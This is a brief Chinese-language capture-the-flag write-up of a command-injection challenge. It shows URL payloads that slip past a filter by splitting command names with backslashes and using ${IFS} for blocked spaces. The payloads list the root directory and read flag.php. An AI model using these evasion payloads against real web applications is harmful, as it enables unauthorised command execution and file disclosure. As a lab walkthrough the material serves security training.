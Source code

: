 ![img](./assets/wps366.jpg)

 

过滤系统命令，空格，；数字 ，`,

\ 绕过

${IFS}绕过空格

 

首先构造payload：

?rce=ls${IFS}/

![img](./assets/wps367.jpg) 

 

查看当前目录

![img](./assets/wps368.jpg) 

 

 

查看flag.php

构造payload:

?rce=c\at${IFS}fl\ag.php  (c\at不能写成ca\t)

![img](./assets/wps369.jpg) 

 